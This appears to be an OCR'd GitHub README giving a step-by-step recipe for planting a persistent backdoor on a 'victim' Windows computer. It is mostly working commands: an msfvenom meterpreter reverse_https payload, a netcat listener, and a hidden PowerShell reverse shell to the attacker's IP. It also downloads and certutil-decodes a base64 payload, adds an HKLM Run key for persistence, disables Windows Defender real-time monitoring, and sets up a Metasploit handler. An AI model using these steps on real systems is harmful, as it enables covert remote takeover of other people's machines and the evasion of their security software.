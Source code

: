 
## Create Backdoor
```
msfvenom -p windows/meterpreter/reverse_https lhost=[your ip] lport=[your port]  -f exe -o backdoor.exe
```
## Encode Backdoor
Go to [Here](https://www.base64encode.org) to Encode Backdoor

## Netcat
``` bash
nc -lvnp [Your port]
```
## Victim
Run this in Victim Computer
``` powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('[your ip]', [your port]);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```
## Make Directory
Make Directory to save backdoor
``` bash
mkdir c:\Users\[User_name]\AppData\LocalLow\Temp
```
## Use python to make server

``` bash
python -m http.server
```
## Download String base64 backdoor
Download String From Your Server Python
``` powershell
(New-Object System.Net.WebClient).DownloadString(http://example.com/file-encode.txt)
```
## Ddecode Base64

``` powershell
certutil -decode c:\Users\[User Name]\AppData\LocalLow\Temp\file-encode.txt c:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe
```
## Create Regkey
Create a Regkey to execute Backdoor when start Windows 
``` powershell
New-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name "Sys" -Value "c:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe" -PropertyType "String"
```
## Msfconsole
Run msfconsole

- Use exploit handler
```
use exploit/multi/handler
```
- Set Payload
```
set payload windows/meterpreter/reverse_https
```
- Set Lhost
```
set lhost [your ip] 
```
- Set lport
```
set lport [your port]
```
- Run
```
run 
```
## Disable Windows Defender
```
Set-MpPreference -DisableRealtimeMonitoring $true
```
## Unlock Backdoor
```
Unblock-File -Path c:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe
```
## Execute Backdoor
```
./decode.exe
```
